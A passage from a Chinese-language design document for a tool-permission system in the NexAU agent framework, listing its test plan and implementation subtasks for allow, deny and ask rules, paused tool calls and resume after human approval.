3. 在 tool 的 YAML 配置中添加 `permissions` 字段声明初始 allow/deny 规则
4. 业务层实现 UI：读 `session.pending_tool_calls` 展示 ask 面板 + resolve API
5. （可选）产品层自建 CC 风格 rule 字符串语法、settings 文件、permission mode 等 UX 设施——这些属于产品层

## 测试计划

### 单元测试（覆盖率目标 ≥ 80%）
- `FrameworkContext` 构造：从 AgentConfig + DB 合并规则
- 内置 tool 匹配 helper：`check_path_permission` pathspec gitignore 语义、`check_shell_permission` shlex 首词解析
- helper 三态行为：命中 allow → 返回、命中 deny → raise PermissionDenied、无命中 → raise AskPermission
- Tool YAML permissions 初始化：session 创建时写入 `permission_rules` 表
- Executor 集成：并行 tool call 的异常安全收集（AllowOutcome / DenyOutcome / AskOutcome）
- Executor 集成：Allow 正常执行、Deny 写 denial ToolResult、Ask 写入 `session.pending_tool_calls` + 停 run
- 同 turn 混合决策处理（含多个 Ask 并行场景）
- `agent.run()` 硬拦：`pending_tool_calls` 有未决 decision 时 raise
- Resume 三条路径：allow（re-call + 写规则）、allow_once（re-call + 临时加入 allow_rules + 不写规则）、deny（合成 denial）
- 级联清理：session 删除带走 rules，`pending_tool_calls` 随 session 删除
- 幂等性：resume 中断后重试不重复执行 allow tool（consumed 标记）

### 集成测试
- E2E：LLM → Ask → 关进程 → 重启 → resolve → resume → 正常完成
- E2E：连续 Ask → 同命令第二次直接放行（allow 规则生效）
- E2E：deny 后同命令再次 ask（deny 不持久化）
- E2E：allow_once 后同命令再次 ask（无持久化）

### 端到端手工测试
- 测试指南与用例设计: `docs/testing/permission-e2e-test-plan.md`
- 最终执行记录: `docs/testing/permission-e2e-manual-test-log.md`（60 项测试，60/60 PASS）

### 非回归测试
- 现有 NexAU 单元/集成测试全绿（`permissions=None` 的默认路径）

## 子任务分解

### 依赖 DAG



### 子任务列表

#### T1: FrameworkContext + 权限类型 + 匹配 helper
**范围**：定义 `FrameworkContext`（纯数据载体，含 `allow_rules` / `deny_rules`）、`PermissionRules`、`AskPermission` / `PermissionDenied` 异常、`PendingPermissionsError`。扩展 tool YAML schema 支持 `permissions` 字段（内联 list 或指向外部文件）。实现内置 tool 的匹配 helper 函数 `check_path_permission()` / `check_shell_permission()`（参考实现）。
**验收标准**：
- 类型定义及 import path 稳定（`nexau.archs.permissions` 新子包）
- 无 `permissions` 的 tool 现有测试全绿（向后兼容）
- 单元测试：helper 函数三态行为
**依赖**：无

#### T2: DB schema: permission_rules 表 + sessions.pending_tool_calls 字段
**范围**：编写 `001_tool_permission.sql` 迁移脚本（`permission_rules` 表 + `sessions` 表新增 `pending_tool_calls` JSON 列）。实现迁移检测逻辑（启动时自动检测并执行）。实现 CRUD helper。级联删除配置。Session 创建时从各 tool 的 YAML `permissions` 初始化规则。
**验收标准**：
- `001_tool_permission.sql` 迁移脚本幂等（重复执行无副作用）
- 旧数据库升级：无 permission_rules 表和 pending_tool_calls 列时自动创建
- 新数据库：首次建库时正常创建
- 单元测试：permission_rules CRUD、cascade delete、规则初始化
- 单元测试：`pending_tool_calls` 字段的读写、NULL 判断
**依赖**：无

#### T3: Executor 集成 + 并行异常安全 + Ask 持久化
**范围**：Executor 在 tool 调用时构造 `FrameworkContext`（从 DB 加载规则）并传给 tool 函数。每条 tool call 外层独立 try/except，将异常收集为 `ToolOutcome`（`AllowOutcome` / `DenyOutcome` / `AskOutcome`），gather 后统一处理。`AskOutcome` 写入 `session.pending_tool_calls`。同 turn 内混合决策按"立即执行 Allow/Deny + Ask 挂起"处理。
**验收标准**：
- 单元测试：三态在 executor 中的行为
- 单元测试：并行多 Ask 场景不丢失异常
- 单元测试：混合决策处理
- 不破坏现有 middleware before/after_tool 调用时机
**依赖**：T1, T2

#### T4: agent.run 硬拦 + Resume 语义
**范围**：`agent.run()` 入口检查 `session.pending_tool_calls`，有未决 decision 则 raise `PendingPermissionsError`。新增 `agent.resolve_permission(tool_call_id, decision)` API（更新 `pending_tool_calls` 中对应条目的 decision）。Resume 路径：allow → 写规则 + re-call tool、allow_once → 将 `permission_key` 临时加入 `allow_rules` + re-call tool、deny → 合成 denial。幂等标记 `consumed`。
**验收标准**：
- 单元测试：硬拦、resolve API、resume 三条路径、幂等
- 集成测试：pause → 关 Agent 实例 → 新实例 resume
**依赖**：T3

#### T5: 内置 tool 适配
**范围**：为 NexAU 内置 tool（read_file / write_file / edit_file / run_shell_command）添加 `ctx: FrameworkContext` 参数，在函数入口处调用对应的匹配 helper（`check_path_permission` / `check_shell_permission`）。
**验收标准**：
- 内置 tool 函数签名更新，现有不传 ctx 的调用方式向后兼容（`ctx=None` 时跳过检查）
- Filesystem 匹配：gitignore 语义全覆盖测试
- Shell 匹配：首词 / 复合命令 / 转义 全覆盖测试
**依赖**：T1

#### T6: E2E 测试
**范围**：`examples/e2e_tool_permission/` 下的脚本（自动化 + interactive playground）；集成测试 `test_tool_permission_e2e.py`。
**验收标准**：
- E2E 脚本跑通，assertion 全绿
- 集成测试覆盖：Ask → 进程重启 → resume → 完成
- 集成测试覆盖：allow（持久化）/ allow_once（不持久化）/ deny（不持久化）三条路径行为正确
**依赖**：T4, T5
